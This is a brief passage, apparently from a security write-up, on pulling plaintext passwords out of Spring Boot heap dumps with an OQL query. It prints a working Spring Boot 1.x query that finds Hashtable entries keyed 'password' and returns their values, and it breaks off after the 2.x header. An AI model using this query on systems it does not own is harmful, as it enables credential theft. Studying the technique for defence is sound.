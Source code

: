 ![image-20220802154203728](../../.gitbook/assets/image-20220802154203728.png)

Construct the OQL statement to perform keyword search and obtain plaintext passwords.

Spring Boot 1.x Version Query Statements

```
select s.value.toString() from java.util.Hashtable$Entry s where /password/.test(s.key.toString())
```

![image-20230129200827719](../../.gitbook/assets/image-20230129200827719.png)

Spring Boot 2.x Version Query Statements
